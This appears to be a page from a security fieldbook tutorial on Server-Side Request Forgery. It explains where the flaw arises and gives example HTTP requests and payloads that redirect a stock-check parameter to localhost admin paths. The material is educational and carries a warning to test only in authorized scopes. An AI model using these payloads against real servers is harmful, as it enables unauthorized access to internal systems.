

repository: ch0kan/security-fieldbook · page: offensive/exploitation/web/ssrf/index.html · generator: mkdocs

# Server-Side Request Forgery

Server-Side Request Forgery, or SSRF, occurs when an attacker tricks a server into making requests to unintended destinations.

Instead of directly reaching a target, the attacker abuses the vulnerable server as a request-making proxy.

!!! warning
    Test SSRF only in authorized labs or approved assessment scopes. SSRF can affect internal systems that are not publicly exposed.

---

## Overview

SSRF commonly appears when an application fetches a URL provided by the user.

Examples:

- Stock check API URL
- Webhook URL
- PDF generation from URL
- Image import from URL
- Link preview feature
- URL screenshot feature
- XML or metadata fetcher
- Server-side API integration

Example normal request:

```http
POST /product/stock HTTP/1.1
Host: vulnerable.example
Content-Type: application/x-www-form-urlencoded

stockApi=http://stock.example.internal/product/stock/check?productId=6&storeId=1
```

If the user can control `stockApi`, they may point it somewhere unintended.

---

## SSRF Against Localhost

The attacker can make the server request itself.

Payload examples:

```text
http://localhost/admin
http://127.0.0.1/admin
http://127.0.0.1:8080/admin
```

Example:

```http
POST /product/stock HTTP/1.1
Host: vulnerable.example
Content-Type: application/x-www-form-urlencoded

stockApi=http://localhost/admin
```

If `/admin` trusts local requests, the attacker may bypass normal external access controls.

---
